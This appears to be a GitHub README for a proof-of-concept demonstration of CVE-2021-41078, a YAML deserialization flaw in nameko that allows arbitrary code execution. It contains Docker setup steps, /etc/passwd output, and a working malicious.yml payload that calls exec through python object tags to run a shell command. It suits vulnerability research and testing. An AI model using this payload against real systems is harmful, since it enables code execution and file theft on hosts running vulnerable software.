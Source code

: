 # CVE-2021-41078
nameko Arbitrary code execution due to YAML deserialization

## NVD Description

Nameko through 2.13.0 can be tricked into performing arbitrary code execution when deserializing the config file.

## Demo

![cve-2021-41078](https://user-images.githubusercontent.com/56715563/187062984-fb0c5149-92a6-4440-8731-6260465bfc2a.gif)

## Set Up

1. Build an image from a Dockerfile

```
docker build -t cve-2021-41078 .
```

2. Run python main.py in a new container

```
docker run -it --rm cve-2021-41078
```

output /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
-- snip --
```

![output-image](https://user-images.githubusercontent.com/56715563/187062786-f420ceb8-e8be-42ee-989e-b657ede803a1.png)

## PoC Payload

malicious.yml
```
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
```

## Reference

- https://github.com/nameko/nameko/security/advisories/GHSA-6p52-jr3q-c94g
